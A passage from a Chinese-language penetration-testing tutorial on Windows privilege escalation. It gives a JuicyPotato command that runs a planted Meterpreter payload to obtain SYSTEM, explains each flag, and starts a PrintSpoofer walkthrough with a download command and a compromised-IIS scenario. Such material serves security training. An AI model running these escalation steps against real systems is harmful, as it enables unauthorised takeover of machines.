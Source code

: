 ###### 运行JuicyPotato

https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2012_Datacenter

![image-20241009165348720](https://image.201068.xyz/assets/38.后渗透/image-20241009165348720.png)



```python
shell
chcp 65001
JuicyPotato.exe -t t -p C:\phpstudy_pro\WWW\vul\rce\msf_8888.exe -l 8888 -n 135 -c {e60687f7-01a1-40aa-86ac-db1cbf673334}

# -t，指定要使用CreateProcesswithTokenW和CreateProcessAsUserA()中的哪个函数
# -p，指定要运行的程序
# -l，指定COM对象加载的端口
# -n，指定本地RPC服务端口，默认为135
# -c，指定要加载的COM对象的CLSID
```

![image-20241009165411562](https://image.201068.xyz/assets/38.后渗透/image-20241009165411562.png)

注意，以上提权方法仅适用于 `Windows 10 version 1809` 和 `Windows Server 2019` 之前版本的系统。

在之后的版本中，微软通过检查RPC绑定字符串中指定的端口来修复了这个问题，修复后的系统无法通过原来的方法实现中间人攻击。

###### 成功获取

成功获取到了一个 SYSTEM 权限的Meterpreter

```python
getuid
```

![image-20241009165514740](https://image.201068.xyz/assets/38.后渗透/image-20241009165514740.png)

#### 3.3.3.PrintSpoofer (Pipe Potato)

https://github.com/itm4n/PrintSpoofer

下载链接：https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe

```python
cd /root/tools/windows/
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
```

2020年5月，安全研究员 Clement Labro 发布了有关 PrintSpoofer（也被称为“Pipe Potato”）

提权技术的细节，主要利用了打印机组件路径检查中存在的一个Bug，使高权限的服务能连接到我们创建的命名管道，以获取高权限账户的令牌来创建新进程。

##### 演示

以 **IIS 服务**进行演示，假设已获取 **IIS 服务账户**的权限，上线了 `MetaSploit`

![image-20241009170726503](https://image.201068.xyz/assets/38.后渗透/image-20241009170726503.png)

##### 上传利用程序
